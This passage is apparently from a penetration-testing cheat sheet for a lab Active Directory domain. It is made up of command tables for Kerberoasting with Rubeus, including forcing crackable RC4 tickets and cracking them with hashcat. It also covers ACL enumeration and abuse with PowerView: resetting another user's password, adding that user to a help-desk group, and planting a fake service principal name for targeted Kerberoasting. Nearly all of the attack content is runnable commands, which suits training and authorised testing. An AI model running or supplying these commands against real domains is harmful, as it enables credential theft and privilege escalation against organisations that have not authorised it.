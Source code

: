 | `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap`              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host. |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host . |

> We can use `Rubeus` with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

> Note: This does not work against a `Windows Server 2019 Domain Controller`, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.

> `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` for this error , sync time to DC server
> `sudo ntpdate 10.10.11.42`



# ACL Enumeration & Tactics 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Import-Module .\PowerView.ps1;  $sid = Convert-NameToSid wley` | Retrieve the SID of a specific user account (`wley`) |
| `Get-DomainObjectACL -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Find Windows domain objects that the user has rights over|
| `$guid= "00299570-246d-11d0-a768-00aa006e0529"   Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * \| Select Name,DisplayName,DistinguishedName,rightsGuid \| ?{$_.rightsGuid -eq $guid} \| fl` | Used to perform a reverse search & map to a `GUID` value from a Windows-based host. |
| `Get-DomainObjectACL -ResolveGUIDs -Identity * \| ? {$_.SecurityIdentifier -eq $sid} ` | Find Windows domain objects that the user has rights over with GUID  |
| `Get-ADUser -Filter * \| Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (`ad_users.txt`) from a Windows-based host. |
| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" \| Select-Object Path -ExpandProperty Access \| Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A `foreach loop` used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(`ad_users.txt`) to the `Get-ADUser` cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |
| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) ` | Used to create a `PSCredential Object` from a Windows-based host. |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a `SecureString Object` from a Windows-based host. |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host. |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" \| Select MemberName` | PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host. |

[DEV01]: PS C:\Users\backupadm\Documents> klist